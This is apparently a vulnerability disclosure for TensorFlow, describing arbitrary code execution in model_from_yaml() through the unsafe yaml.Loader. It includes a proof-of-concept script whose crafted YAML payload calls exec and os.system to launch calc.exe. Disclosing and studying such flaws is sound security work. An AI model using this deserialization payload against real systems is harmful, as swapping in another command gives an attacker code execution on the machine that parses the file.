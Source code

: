 ## :writing_hand: Description

`TensorFlow` is an end-to-end open source platform for machine learning. It has a comprehensive, flexible ecosystem of tools, libraries, and community resources that lets researchers push the state-of-the-art in ML and developers easily build and deploy ML-powered applications. It is vulnerable to `Arbitrary Code Execution`.

## :bug: Vulnerability

`model_from_yaml()` function parses a yaml model configuration file and returns a model instance. It uses the vulnerable `yaml.Loader` which causes code execution.

## :male_detective: Proof of Concept

#### Installation
```bash
pip install tensorflow
```

#### Run exploit.py
```python
#!/usr/bin/env python3

from tensorflow.keras import models

payload = '''
!!python/object/new:type
args: ['z', !!python/tuple [], {'extend': !!python/name:exec }]
listitems: "__import__('os').system('calc.exe')"
'''

models.model_from_yaml(payload)
```
